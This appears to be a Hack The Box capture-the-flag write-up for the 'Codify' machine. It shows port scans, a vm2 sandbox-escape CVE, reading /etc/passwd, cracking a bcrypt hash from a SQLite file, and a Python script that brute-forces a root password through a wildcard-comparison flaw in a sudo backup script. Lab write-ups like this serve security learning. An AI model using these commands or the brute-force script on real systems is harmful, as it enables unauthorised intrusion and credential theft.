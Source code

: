 #HTB-Codify

This machine can be viewed at: https://app.hackthebox.com/machines/Codify

##Phase 1: Initial Foothold

We begin the machine by enumerating the ports and services open using the following nmap scans

```markdown
sudo nmap -sS -p- -Pn -n --min-rate 5000 $IP
[sudo] password for rat: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 22:38 UTC
Nmap scan report for 10.10.11.239
Host is up (0.070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 13.86 seconds
```

We notice SSH, an HTTP server on port 80 and a service which I don't know on port 3000. We proceed with the service enumeration scan:

```markdown
sudo nmap -sCV -p 22,80,3000 $IP
[sudo] password for rat: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 22:44 UTC
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.070s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

We learn that the unknown service is a Node.js frame. We enter the web server to begin enumeration.

![image](https://github.com/Rapfael01/Write-ups/assets/70867743/7f790118-aed2-4c60-bf03-ded91655ff39)

We begin some GoBuster scans in the background in case there are some hidden web directories, however, we can find three pages from the get go: /index, /about and /editor. We are mainly interested in /about and /editor.
![image](https://github.com/Rapfael01/Write-ups/assets/70867743/90a4e893-1fe7-4fa8-a8d5-9793c9d0578e)

- **/editor**: A simple page that allows the users compile and execute Node.js code on the web.

![image](https://github.com/Rapfael01/Write-ups/assets/70867743/fb5f7ad8-74d0-4b4b-8db8-0efb0879fb40)

- **/about**: A simple about page, where we learn the page uses vm2 and is linked to the release version (3.9.16).

After we research about this vm2 version, we learn that there is an arbitrary code execution vulnerability ([CVE-2023-37466](https://nvd.nist.gov/vuln/detail/CVE-2023-37466)). We find a [POC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) as one of the first results in google, and by testing it, we get arbitrary commands on the host!
![image](https://github.com/Rapfael01/Write-ups/assets/70867743/03375821-34f3-433e-82ea-5bafcc287bea)

We set up a nc listener, execute a reverse shell command and stabilize the shell, and we have the initial foothold!
![image](https://github.com/Rapfael01/Write-ups/assets/70867743/4865dce3-41aa-4afd-8607-293260e57288)

##Phase 2: PrivEsc to user

As we stand right now, we're in a low privilege account from which we cannot do too much. We can check for accounts that have access to bash by quickly enumerating them from the /etc/passwd file.

```markdown
svc@codify:~$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
svc@codify:~$ 
```
We begin our privilege escalation process by uploading linpeas to the machine and enumerating the vulnerabilities available to exploit. After testing a couple of things, we find an interesting file stored within /var/www called tickets.db.

```markdown
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 836, cookie 0x4, schema 4, UTF-8, version-valid-for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 3, database pages 6, cookie 0x5, schema 4, UTF-8, version-valid-for 3
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5
Found /var/lib/plocate/plocate.db: regular file, no read permission
Found /var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```
We head towards the directory and strings the .db file, where we obtain a bcrypt hash for the MySQL password for joshua. We know it's MySQL because we also found the 3306 port listening during our linpeas analysis.

```markdown
svc@codify:/var/www/contact$ strings tickets.db 
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
##################################################################
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
svc@codify:/var/www/contact$ 
```

We crack the obtained hash in our machine using john, and boom! We get the MySQL password for joshua.

```markdown
john joshua.hash --wordlist=/usr/share/Wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)
```

We should try to use this password to login as Joshua in our target since users tend to use the same passwords for most pages.

```markdown
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ 
```
And just like that, we are now a user and get our user flag! We can also connect via SSH for a more stable shell.

##Phase 3: PrivEsc to root

My first instict was to use the existing MySQL table users (which we learned was there in the tickets.db file) to try to find the hash for the root user and decrypt it. Although the password hash was there, we could not find a hit using rockyou.txt, so we move on to find another escalation vector.

We check for sudo commands our user can execute by using sudo -l, and we get a bash script that backs up the MySQL database.

```markdown
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ 
```
We list its permissions using ls -l. We can execute and read the code. The source code for this script goes as follows:
```markdown
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
joshua@codify:~$
```
At first, I was a little lost since there were no clear indicators for escalation methods I had experience with. But, since the code had no clear vulnerabilities to me, I assumed that maybe the path to root lied within the way the script was authenticating the password. I copied the code up to the authentication section, created a local file it would use to extract the password from (just like the actual script) and started trying different things. After a lot (and I mean a lot) of trial and error, I learned that introducing a wildcard as the password worked as a valid authentication. And once again, I hit a dead end and took a break. While I was looking for a file on my Windows machine using the command _dir /s /b *.txt_, I had an epiphany where I realized I could probably guess each character of the password by using [char]* as an input for the password. After testing on my local copy of the code, it worked! So I ended up creating the following python script to automate this process:

```markdown
import subprocess

final_pass = ""

def crack_pass(password):

	command = "sudo /opt/scripts/mysql-backup.sh"
	character_list="0123456789abcdefghijkmnlopqrstuvwxyzABCDEFGHIJKMNLOPQRSTUVWXYZ!\"#$%&'()+,-./:;<=>?@[]^_`{|}~"

	out = ""
	for char in character_list:
		process = subprocess.Popen(command, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
		process.stdin.write(f"{password}{char}*\n")
		process.stdin.flush()  
		output, error = process.communicate()
		#print(output)
		if "failed!" not in output:
			print(f"Character found: {char}!")
			out=crack_pass(password+char)
			break
		elif char==character_list[-1]:
			print(password)
			break


crack_pass(final_pass)
```
We pop the script in, and it works like charm!

```markdown
joshua@codify:/tmp/.pwned$ su root
Password: 
root@codify:/tmp/.pwned# 
```

And just like that, this machine has been pwned!

